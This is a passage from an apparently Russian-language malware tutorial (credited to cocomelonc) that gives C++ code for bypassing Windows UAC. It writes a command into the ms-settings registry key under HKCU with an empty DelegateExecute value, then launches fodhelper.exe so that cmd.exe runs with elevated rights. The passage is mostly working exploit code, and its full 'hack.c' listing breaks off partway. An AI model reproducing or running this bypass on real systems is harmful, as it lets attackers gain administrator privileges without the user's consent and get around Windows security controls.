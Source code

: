 ```cpp
stat = RegSetValueEx(hkey, "", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
printf(stat != ERROR_SUCCESS ? "failed to set reg value\n" : 
"successfully set reg value\n");

stat = RegSetValueEx(hkey, "DelegateExecute", 0, REG_SZ, (unsigned char*)del, 
strlen(del));
printf(stat != ERROR_SUCCESS ? "failed to set reg value: DelegateExecute\n" : 
"successfully set reg value: DelegateExecute\n");

// close the key handle
RegCloseKey(hkey);
```

Как вы можете видеть, просто создается новая структура реестра в: `HKCU:\Software\Classes\ms-settings\` для выполнения обхода UAC.

Затем запустим приложение с повышенными правами:

```cpp
 // start the fodhelper.exe program
SHELLEXECUTEINFO sei = { sizeof(sei) };
sei.lpVerb = "runas";
sei.lpFile = "C:\\Windows\\System32\\fodhelper.exe";
sei.hwnd = NULL;
sei.nShow = SW_NORMAL;

if (!ShellExecuteEx(&sei)) {
  DWORD err = GetLastError();
  printf (err == ERROR_CANCELLED ? "the user refused to allow privileges elevation.\n" : "unexpected error! error code: %ld\n", err);
} else {
  printf("successfully create process =^..^=\n");
}

return 0;
```

Вот и все.

Полный исходный код выглядит как `hack.c`:

```cpp
/*
 * hack.c - bypass UAC via fodhelper.exe
 * (registry modifications). C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/06/19/malware-av-evasion-17.html
*/
#include <windows.h>
#include <stdio.h>

int main() {
  HKEY hkey;
  DWORD d;

  const char* settings = "Software\\Classes\\ms-settings\\Shell\\Open\\command";
  const char* cmd = "cmd /c start C:\\Windows\\System32\\cmd.exe"; 
  // default program
  const char* del = "";

  // attempt to open the key
  LSTATUS stat = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)settings, 0, NULL, 
  0, KEY_WRITE, NULL, &hkey, &d);
  printf(stat != ERROR_SUCCESS ? "failed to open or create reg key\n" : 
  "successfully create reg key\n");

```